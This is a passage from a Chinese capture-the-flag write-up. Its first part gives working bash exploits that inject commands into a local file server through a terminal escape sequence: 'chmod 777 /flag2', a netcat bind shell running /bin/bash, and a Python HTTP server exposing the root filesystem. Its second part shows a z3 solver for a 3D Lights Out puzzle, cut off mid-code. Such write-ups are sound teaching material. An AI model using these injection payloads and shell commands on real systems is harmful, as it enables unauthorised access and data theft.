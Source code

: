 ```bash StarRail.sh
#!/bin/bash
echo -ne 'GET /StarRail_2.6.0.7z\eP$q\rexit\rchmod 777 /flag2\r\e\\' | nc 127.0.0.1 8000
sleep 1
cat /flag2
```

结果发现题目的文件系统是**只读**的，并不能直接修改 `/flag2` 的权限，也不能把 `/flag2` 拷到其它地方。

那么，既然 root 可以看到 `/flag2`，上传的脚本以 nobody 运行，看不见，所以就需要~~用分布式软总线~~用其他办法。我这里是用网络传输。

在退掉超级安全的 `fileserver` 之后，自己在其它的位置另起一个服务器，然后获得 `/flag2` 的内容。

```bash StarRail.sh
#!/bin/bash
echo -ne 'GET /StarRail_2.6.0.7z\eP$q\x03nc -n -lvvp 11451 -t -e /bin/bash\r\e\\' | nc 127.0.0.1 8000
sleep 1
echo "cat /flag2" | nc 127.0.0.1 11451 &
```

这是一次失败的尝试，在本地试验可以跑通，但不知道为什么在远程不行。{%icon https://imgsrc.chyk.ink/suzume_bili_crazy.webp %}

注意到环境里有 Python，于是可以借助 Python：

```bash
#!/bin/bash
echo -ne 'GET /StarRail_2.6.0.7z\eP$q\x03python3 -m http.server 11451 -d /\r\e\\' | nc 127.0.0.1 8000
sleep 1
curl http://127.0.0.1:11451/flag2
```

于是成功拿到 flag 2。{%icon https://imgsrc.chyk.ink/suzumi_bili_2_push.webp %}

{%image https://imgsrc.chyk.ink/eh4n7vcb4buDjOT4.webp %}

### 🔦 ⭕ 关灯

题目是 3D 版本的[关灯游戏](https://en.wikipedia.org/wiki/Lights_Out_(game))。前三问的矩阵分别为 3x3x3，5x5x5 和 11x11x11。可以使用 z3 求解得出。

{%folding child:codeblock 解题代码 %}

```python
# Generated by ChatGPT

import numpy
from z3 import *

def convert_switch_array_to_lights_array(switch_array: numpy.array) -> numpy.array:
    lights_array = numpy.zeros_like(switch_array)
    lights_array ^= switch_array
    lights_array[:-1, :, :] ^= switch_array[1:, :, :]
    lights_array[1:, :, :] ^= switch_array[:-1, :, :]
    lights_array[:, :-1, :] ^= switch_array[:, 1:, :]
    lights_array[:, 1:, :] ^= switch_array[:, :-1, :]
    lights_array[:, :, :-1] ^= switch_array[:, :, 1:]
    lights_array[:, :, 1:] ^= switch_array[:, :, :-1]
    return lights_array

def solve_puzzle(lights_string: str, n: int) -> numpy.array:
    # Initialize z3 solver
    solver = Solver()

    # Create a 3D array of z3 Bool variables
    switch_array = [[[Bool(f'switch_{i}_{j}_{k}') for k in range(n)] for j in range(n)] for i in range(n)]

    # Convert the lights_string to a numpy array
```